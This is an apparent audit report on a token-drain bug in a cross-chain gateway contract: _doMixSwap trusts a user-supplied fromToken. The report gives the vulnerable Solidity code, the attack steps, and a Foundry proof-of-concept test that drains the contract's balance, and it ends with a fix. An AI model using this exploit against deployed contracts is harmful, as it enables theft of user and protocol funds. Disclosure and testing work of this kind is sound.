 # Gateway Transfer Native Token Drain Vulnerability

## Summary
Missing validation of `params.fromToken` in `_doMixSwap` lets an attacker swap any token the contract holds, not the one it just received. This allows total theft of idle balances from GatewayTransferNative because an attacker can deposit a cheap token, forge the payload to point at a valuable token already in the contract, and the router will spend it on their behalf.

## Root Cause
In `GatewayTransferNative.sol` the contract approves whatever token the message says, not the token it actually received:

**Reference**: [GatewayTransferNative.sol#L425](https://github.com/sherlock-audit/2025-05-dodo-cross-chain-dex/blob/main/omni-chain-contracts/contracts/GatewayTransferNative.sol#L425)

```solidity
function _doMixSwap(  
    bytes memory swapData,  
    uint256 amount,  
    MixSwapParams memory params  
) internal returns (uint256 outputAmount) {  
    if (swapData.length == 0) {  
        return amount;  
    }  

    // BUG: params.fromToken is untrusted, should equal zrc20  
    IZRC20(params.fromToken).approve(DODOApprove, amount);  

    return IDODORouteProxy(DODORouteProxy).mixSwap{value: msg.value}(  
        params.fromToken,  
        params.toToken,  
        params.fromTokenAmount,  
        ...  
    );  
}
```

Because `params.fromToken` comes straight from the user-supplied message, the contract may approve and transfer any asset it is currently holding.

## Attack Path
1. Attacker deposits a minimal amount of T₍cheap₎ or triggers a cross-chain call delivering T₍cheap₎
2. In the payload, they set `params.fromToken = T₍val₎` and `params.fromTokenAmount` to the contract's balance of T₍val₎
3. GatewayTransferNative enters `_doMixSwap`, approves DODO to spend the contract's entire T₍val₎ balance
4. DODO router transfers T₍val₎, swaps it for the attacker's chosen asset, and sends proceeds per params
5. Attacker withdraws or receives the swapped funds; GatewayTransferNative's T₍val₎ balance is now zero

## Impact
- The protocol treasury / users whose transfers are in-flight lose up to the full balance of every token the contract holds (unbounded value)
- The attacker gains the same amount minus DEX fees

## Proof of Concept

```solidity
// SPDX-License-Identifier: MIT  

pragma solidity ^0.8.7;  

import {IZRC20} from "@zetachain/protocol-contracts/contracts/zevm/interfaces/IZRC20.sol";  
import "@zetachain/protocol-contracts/contracts/zevm/interfaces/IGatewayZEVM.sol";  
import {UniswapV2Library} from "../contracts/libraries/UniswapV2Library.sol";  
import {SwapDataHelperLib} from "../contracts/libraries/SwapDataHelperLib.sol";  
import {BaseTest} from "./BaseTest.t.sol";  
import {console} from "forge-std/console.sol";  

/* forge test --fork-url https://zetachain-evm.blockpi.network/v1/rpc/public */  
contract GatewayCrossChainTest is BaseTest {  
    function test_Exploit_DrainValuableToken() public {  
        // --- Setup ---  
        address valuableToken = address(token1Z);  
        address cheapToken = address(token2Z);  
        uint256 valuableTokenInitialBalance = 100 ether;  
        uint256 cheapTokenDepositAmount = 1 ether;  

        token1Z.mint(address(gatewayCrossChain), valuableTokenInitialBalance);  
        assertEq(token1Z.balanceOf(address(gatewayCrossChain)), valuableTokenInitialBalance);  

        if (token2Z.balanceOf(user1) < cheapTokenDepositAmount) {  
            token2Z.mint(user1, cheapTokenDepositAmount - token2Z.balanceOf(user1));  
        }  
        uint256 attackerInitialCheapToken = token2Z.balanceOf(user1);  

        // --- Attacker Prepares Malicious Payload ---  
        bytes32 externalId = keccak256(abi.encodePacked("exploit_test", block.timestamp));  
        uint32 dstChainId = 2;  
        address targetZRC20_payload = cheapToken;  

        bytes memory sender_for_payload = abi.encodePacked(user1);  
        bytes memory receiver_for_payload = bytes(""); // MODIFIED: Empty receiver for smaller emit message  

        address[] memory dummyMaliciousAdapters = new address[](1);  
        dummyMaliciousAdapters[0] = address(0);  
        address[] memory dummyMaliciousPairs = new address[](1);  
        dummyMaliciousPairs[0] = address(0);  
        address[] memory dummyMaliciousAssetTo = new address[](1);  
        dummyMaliciousAssetTo[0] = user1;  
        bytes[] memory dummyMaliciousMoreInfo = new bytes[](1);  
        dummyMaliciousMoreInfo[0] = bytes("");  

        // Calculate fee-adjusted amount BEFORE preparing swapDataZ_malicious  
        uint256 feePercent = gatewayCrossChain.feePercent();  
        uint256 platformFeesForTx = (cheapTokenDepositAmount * feePercent) / 1000;  
        uint256 amountForSwapAfterPlatformFee = cheapTokenDepositAmount - platformFeesForTx;  

        bytes memory swapDataZ_malicious = encodeCompressedMixSwapParams(  
            valuableToken,  
            cheapToken,  
            amountForSwapAfterPlatformFee, // MODIFIED: Use fee-adjusted amount  
            0,  
            0,  
            dummyMaliciousAdapters,  
            dummyMaliciousPairs,  
            dummyMaliciousAssetTo,  
            0,  
            dummyMaliciousMoreInfo,  
            abi.encode(user1, 0),  
            block.timestamp + 600  
        );  

        bytes memory contractAddress_dummy = bytes(""); // Ensures GatewayZEVMMock returns early  
        bytes memory swapDataB_for_payload = bytes(""); // MODIFIED: Empty swapDataB for smaller emit message  
        bytes memory accounts_dummy = "";  

        bytes memory payload = encodeMessage(  
            dstChainId,  
            targetZRC20_payload,  
            sender_for_payload,  
            receiver_for_payload,  
            swapDataZ_malicious,  
            contractAddress_dummy,  
            swapDataB_for_payload,  
            accounts_dummy  
        );  

        // --- Execute the Attack ---  
        uint256 contractValuableTokenBalanceBefore = token1Z.balanceOf(address(gatewayCrossChain));  

        token2Z.mint(address(gatewayCrossChain), cheapTokenDepositAmount); // Simulate cheap token deposit to contract  

        vm.prank(address(gatewayZEVM));  
        gatewayCrossChain.onCall(  
            MessageContext({origin: "", sender: address(gatewaySendA), chainID: 1}),  
            cheapToken,  
            cheapTokenDepositAmount,  
            bytes.concat(externalId, payload)  
        );  

        // --- Assertions ---  
        uint256 expectedContractValuableTokenBalanceAfter =  
            contractValuableTokenBalanceBefore - amountForSwapAfterPlatformFee;  
        assertEq(  
            token1Z.balanceOf(address(gatewayCrossChain)),  
            expectedContractValuableTokenBalanceAfter,  
            "Valuable token not drained correctly from contract"  
        );  

        uint256 attackerCheapTokenBalanceAfter = token2Z.balanceOf(user1);  
        uint256 expectedAttackerCheapTokenBalanceAfter = attackerInitialCheapToken + (amountForSwapAfterPlatformFee * 2); // Assuming 1:2 DODO mock rate (valuable -> cheap)  

        assertEq(  
            attackerCheapTokenBalanceAfter,  
            expectedAttackerCheapTokenBalanceAfter,  
            "Attacker did not receive swapped cheap tokens as expected"  
        );  

        uint256 dodoProxyInitialToken1ZBalance =  
            token1Z.balanceOf(address(dodoRouteProxyZ)) - amountForSwapAfterPlatformFee;  
        assertEq(  
            token1Z.balanceOf(address(dodoRouteProxyZ)),  
            dodoProxyInitialToken1ZBalance + amountForSwapAfterPlatformFee,  
            "DODO proxy (ZetaChain) balance of valuable token is incorrect after swap"  
        );  

        console.log("Exploit test_Exploit_DrainValuableToken successful: Contract valuable token balance reduced.");  
        console.log("Contract valuable token (token1Z) before:", contractValuableTokenBalanceBefore);  
        console.log("Contract valuable token (token1Z) after:", token1Z.balanceOf(address(gatewayCrossChain)));  
        console.log("Attacker (user1) cheap token (token2Z) before:", attackerInitialCheapToken);  
        console.log("Attacker (user1) cheap token (token2Z) after swap:", token2Z.balanceOf(user1));  
    }  
}
```

## Recommended Mitigation
Add an invariant check before calling `_doMixSwap`:

```solidity
require(params.fromToken == zrc20, "Mismatched fromToken");
```